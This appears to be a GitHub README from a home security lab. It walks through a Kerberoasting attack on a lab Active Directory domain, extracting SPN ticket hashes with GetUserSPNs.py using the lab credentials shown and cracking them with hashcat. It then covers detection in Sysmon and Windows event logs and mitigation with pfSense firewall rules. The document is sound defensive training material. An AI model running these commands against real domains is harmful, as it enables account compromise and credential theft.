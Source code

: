 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## Overview

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
  - **IP Address:** 192.168.10.10
  - **Domain:** SOC.LAB

- **Attacker:** Kali
  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment, then crack the Kerberos TGS hashes to gain unauthorized access to domain accounts. Prior attacks had already revealed user credentials and access to the Active Directory domain, facilitating this attack.

## Attack Execution Timeline

1. **Kerberos Port Check**
   - Verified that the Kerberos service (port 88) is open on the Domain Controller:
     
     ```bash
     nc -vz 192.168.10.10 88
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

2. **DNS Configuration Update**
   - Updated the default DNS IP to point directly to the Domain Controller.
  
3. **SPN Extraction**
   
   - Ran the `GetUserSPNs.py` script from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
     
     ```bash
     python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

5. **Hash Cracking**
   
   - Cracked the extracted Kerberos TGS hash using hashcat with the rockyou.txt wordlist, saving the results to `cracked.txt`:
     
     ```bash
     hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - Multiple Sysmon log entries with **Event ID 3** were observed.
  - All connections originated from IP `192.168.10.10`, targeting `192.168.20.30`.
  - Different ephemeral ports were utilized, indicating automated scanning or communication.
- ![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)

### Windows Security Logs

- **Event ID 4769 – Kerberos Service Ticket Request**
  - Numerous requests for Kerberos Service Tickets were recorded from the same source IP.
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)

### Detailed User Log Analysis

- **User Activity:**
  - Analysis of individual logs showed multiple ticket requests for user accounts such as *Jordan* and *Candace*.
  - **User Jordan:**  
    ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)
    
  - **User Candace:**  
    ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

- **Logoff Event:**
  - Shortly after the last Kerberos Service Ticket Request, a **Logoff** event (Event ID 4634) was recorded for user `labadmin`.
  - ![logoff](https://github.com/user-attachments/assets/11d039c9-4803-432e-ae34-a427b6db934a)


## **Firewall Rules on pfSense:**
1- **Create an Alias for Internal Systems:**

 - ![aliases](https://github.com/user-attachments/assets/103ebae0-d0c5-4883-b196-d6356225c08c)


2- **Block Unauthorized Kerberos Requests:**
 - ![firstrule](https://github.com/user-attachments/assets/116965fc-3f84-4b72-b76b-414d10214746)

Explanation:
- This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers (!Alias, that I created in rule 1), which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

3- **Limit External and Internal LDAP Queries:**
- ![rule3](https://github.com/user-attachments/assets/d31cc115-efc6-4a93-b269-133962b478db)

Explanation
- This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the configs directory.


